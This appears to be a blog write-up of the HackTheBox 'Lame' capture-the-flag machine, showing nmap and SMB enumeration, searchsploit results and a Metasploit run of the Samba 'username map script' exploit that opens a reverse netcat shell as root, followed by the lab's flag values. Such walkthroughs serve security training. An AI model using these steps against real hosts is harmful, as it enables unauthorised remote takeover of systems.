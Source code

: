```yaml
---
layout: single
title:  "HackTheBox - Lame"
categories: 
  - HTB Easy
tags:
  - htb
  - htb-easy
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: ""
permalink: /posts/htb-lame
author_profile: false
sidebar:
  nav: "navbar"
---
```


## Initial Enumeration

`nmap -sC -sV -v --min-rate=1000 10.10.10.3 -oA lame`

```
Nmap scan report for 10.10.10.3
Host is up (0.012s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-07-18T07:36:03-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 1h52m42s, deviation: 2h49m46s, median: -7m20s
```

Since anonymous FTP login is allowed, I attempted to sign in to the FTP server anonymously. However, I found that there were no files available in the FTP share.

I then attempted to interact with the SMB shares. Using `smbmap`, I found that I could enumerate shares through a null session. However, the null user only had access to the `tmp` share.

```
[*] Detected 1 hosts serving SMB                                             
[*] Established 1 SMB connections(s) and 1 authenticated session(s)          
[+] IP: 10.10.10.40:445 Name: 10.10.10.40              Status: Authenticated
      Disk       Permissions     Comment
      ----       -----------     -------
      print$     NO ACCESS       Printer Drivers
      tmp        READ, WRITE     oh noes!
      opt        NO ACCESS
      IPC$       NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
      ADMIN$     NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Looking through the `tmp` share, we find that there is nothing of note, as the null user does not have access to most files within this share.

## Foothold

If we review the `nmap` scan, we find that this box is running the following services and versions:

* FTP: `vsFTPd 2.3.4`
* SMB: `Samba smbd 3.0.20-Debian`

If we search for possible exploits:

```
$ searchsploit vsftpd 2.3.4    
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                          | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                             | unix/remote/17491.rb
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

```
$ searchsploit samba 3.0.20 
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                             | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                   | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                              | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                      | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We will find two potential exploits that we can use.

In this case, however, the vsFTPd exploit does not work. The explanation can be found [here](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd).

Hence, we will proceed to use the SMB exploit instead. As our Samba version is `3.0.20`, the second exploit ('Username map script') is of interest to us.

We can thus start Metasploit using `msfconsole -q`.

Then, from the console, look for the Username map script exploit and use it.

```
msf6 > search usermap_script

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
<SNIP>
```

```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.110.129   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.26
LHOST => 10.10.14.26
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

Finally, run the exploit.

```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Command shell session 1 opened (10.10.14.26:4444 -> 10.10.10.3:44966) at 2024-07-18 08:34:42 -0400

```

From here, it appears that a shell session has started, but we do not see the `meterpreter` prompt. This implies that this is a standard shell session instead of a `meterpreter` session.

To confirm this, we should get a response if we enter `whoami`.

```
whoami
root
```

Now, we can simply upgrade our shell session to an interactive TTY session.

```
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# pwd
pwd
/
```

Finally, we can obtain the flags.

```
root@lame:/root# cat root.txt
cat root.txt
3e3ca46a0b10dc42b32fe2493a2a3de7
```

```
root@lame:/home/makis# cat user.txt
cat user.txt
024ddf63a92e34e9259c85fea398ce20
```
